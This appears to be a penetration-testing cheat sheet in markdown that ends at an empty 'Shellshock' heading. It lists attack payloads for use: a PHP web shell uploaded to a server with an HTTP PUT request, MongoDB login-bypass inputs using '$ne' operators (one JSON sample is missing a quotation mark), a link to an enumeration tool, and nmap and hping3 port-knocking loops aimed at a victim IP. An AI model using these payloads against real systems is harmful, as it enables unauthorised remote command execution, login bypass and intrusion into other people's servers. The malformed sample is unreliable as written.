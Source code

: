 ## Use_PUT_method
```
use burp
PUT /test/shell.php

<?php system($_GET["cmd"])?>
```

-------------------------------------------------------------------------------------------------------------------------------------

# noSQL

-------------------------------------------------------------------------------------------------------------------------------------

- Basic auth bypass
```
username[$ne]=admin&password[$ne]

json:

{"username": {"$ne": null}, "password: {"$ne": null} }
```

- Enumeration automation tool

https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration

-------------------------------------------------------------------------------------------------------------------------------------

# Port_knocking

--------------------------------------------------------------------------------------------------------------------------------

## configure_file
```
/etc/knocked.conf
**squence** value its sequence of ports someone must access to open or close port.
```
## bash_script
```
for i in 7 2350 43;
  do nmap -Pn -p $i --host-timeout 201 --max-retries 0 [victim_ip]; 
done
```
## nmap_port_knocking
```
nmap -Pn -p $i --host-timeout 100 --max-retries 0 [victim_ip]; 
```
## hping_port_knocking
```
hping3 -S [victim_ip] -p 1 -c 1
```
-------------------------------------------------------------------------------------------------------------------------------------
# Shellshock
